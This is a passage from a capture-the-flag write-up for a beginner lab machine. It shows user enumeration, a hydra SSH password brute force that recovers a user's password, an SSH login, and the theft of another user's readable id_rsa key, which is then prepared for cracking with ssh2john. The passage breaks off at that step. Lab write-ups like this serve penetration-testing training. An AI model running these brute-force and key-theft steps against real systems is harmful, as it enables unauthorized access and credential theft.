 ```bash
[I] Found new SID: 
S-1-5-32

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

We found the next users:

- **User 0  ---> kay**
- **User 1  ---> jan**

I figured that the J guy from the j.txt file is Jan, so knowing his password is weak i will try brute-forcing the Apache Tomcat service, but after trying some wordlists it didn't work, so i tried to brute-force the SSH service.

## Port 22

I started the brute-force with hydra and let it complete:

```bash
hydra -l jen -P /usr/share/seclists/Passwords/probable-v2-top12000.txt ssh://10.10.220.168 -t 4
```

After a while we found the next credentials:

```bash
[22][ssh] host: 10.10.220.168   login: jan   password: armando
```

---
## Shell as Jan

So, once we got valid credentials i logged in with them via SSH:

```bash
❯ ssh jan@10.10.220.168

jan@basic2:~$ 
```

I tried the usual privEsc techniques (`id`, `sudo -l`, `SUID`, etc) but i don't found anything so i checked inside the kay home directory and found that his **id_rsa** is readable so i transferred it to my machine and tried to login:

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa jay@10.10.220.168
Enter passphrase for key 'id_rsa': 
```

But it was protected by a passphrase, so we have to crack the id_rsa, we have to convert the id_rsa to a john format, we can do that with `ssh2john`:
